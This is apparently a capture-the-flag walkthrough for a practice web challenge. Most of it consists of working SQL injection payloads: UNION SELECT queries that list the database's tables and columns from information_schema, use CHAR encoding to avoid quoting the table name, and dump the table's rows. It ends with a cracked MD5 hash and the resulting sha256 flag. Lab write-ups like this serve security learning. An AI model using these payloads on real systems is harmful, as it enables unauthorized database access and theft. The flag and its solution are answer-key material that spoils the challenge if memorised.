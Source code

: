 1 AND 1=0 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()-- 
table name = list_images

columns = 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)--

ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : id
ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : url
ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : title
ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : comment



1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images

ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1



https://crackstation.net/  ----> 1928e8083cf461a51303633093573c46 ----> albatroz

echo -n "albatroz" | sha256sum ------> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188